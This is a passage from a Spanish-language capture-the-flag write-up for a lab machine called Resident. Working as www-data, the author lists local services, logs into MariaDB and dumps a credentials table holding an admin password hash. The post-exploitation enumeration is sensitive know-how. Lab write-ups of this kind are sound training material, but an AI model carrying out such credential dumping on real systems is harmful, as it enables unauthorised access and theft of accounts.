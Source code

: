 Revisamos que este activo este servicio con el comando **ss**:
```bash
www-data@TheHackersLabs-Resident:/var/www/html$ ss -tuln | grep tcp
tcp   LISTEN 0      128                             127.0.0.1:631        0.0.0.0:*          
tcp   LISTEN 0      128                               0.0.0.0:22         0.0.0.0:*          
tcp   LISTEN 0      80                              127.0.0.1:3306       0.0.0.0:*          
tcp   LISTEN 0      511                                     *:80               *:*          
tcp   LISTEN 0      128                                  [::]:22            [::]:*          
tcp   LISTEN 0      128                                 [::1]:631           [::]:*
```
Ahí está.

Conectémonos a ese servicio:
```bash
www-data@TheHackersLabs-Resident:/var/www/html$ mysql -h localhost -u simple -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
...
MariaDB [(none)]>
```
Resultó ser el **servicio MariaDB**.

Aquí debe de existir la base de datos **login**:
```bash
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| login              |
+--------------------+
2 rows in set (0.001 sec)
```
Sí existe.

Usemos esa BD y veamos sus tablas:
```bash
MariaDB [(none)]> use login;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [login]> show tables;
+-----------------+
| Tables_in_login |
+-----------------+
| credentials     |
+-----------------+
1 row in set (0.000 sec)
```
Solo hay una tabla.

Veamos su contenido:
```bash
MariaDB [login]> select * from credentials;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  2 | admin    | 5a06153b12b2ec6210a8bb66f4e78c4* |
+----+----------+----------------------------------+
1 row in set (0.000 sec)
```
Es el mismo Hash que logramos identificar para ganar acceso al login.
